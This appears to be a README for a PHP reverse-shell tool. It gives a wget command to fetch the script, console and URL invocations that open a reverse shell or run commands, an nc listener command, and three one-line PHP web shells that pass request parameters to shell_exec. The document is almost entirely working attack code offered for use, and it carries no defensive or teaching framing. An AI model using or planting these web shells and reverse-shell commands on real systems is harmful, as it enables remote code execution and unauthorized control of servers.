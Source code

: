 # PHP Smart Reverse Shell scripts
A smarter shell script
```shell
wget -O srs.php https://raw.githubusercontent.com/GramThanos/php-smart-reverse-shell/master/srs.php
```

## Script Commands
 - Call reverse shell from console `php ./srs.php 127.0.0.1 1234`
 - Call reverse shell from url `https://example.com/srs.php?ip=127.0.0.1&port=1234`
 - Run command from url `https://example.com/srs.php?c=ls%20-la`
 - Run command from url `https://example.com/srs.php?r=ls%20-la`(redirect errors to stdout)

## Other commands

### Sockets
Wait for a reverse shell connection
```shell
nc -l 127.0.0.1 4444
```

### PHP
Executing shell code with PHP
```PHP
<?php echo shell_exec($_GET['command']);?>
```
or
```PHP
<?=isset($_GET['c'])?shell_exec($_GET['c']):'';?>
```
or 
```PHP
<?php if(isset($_GET['c'])){header('Content-Type: text/plain');die(shell_exec($_REQUEST['c'].'2>&1'));}?>
```

Download Smart Reverse Shell and open shell connection
```shell
wget -O srs.php https://raw.githubusercontent.com/GramThanos/php-smart-reverse-shell/master/srs.php
php ./srs.php 127.0.0.1 1234
```
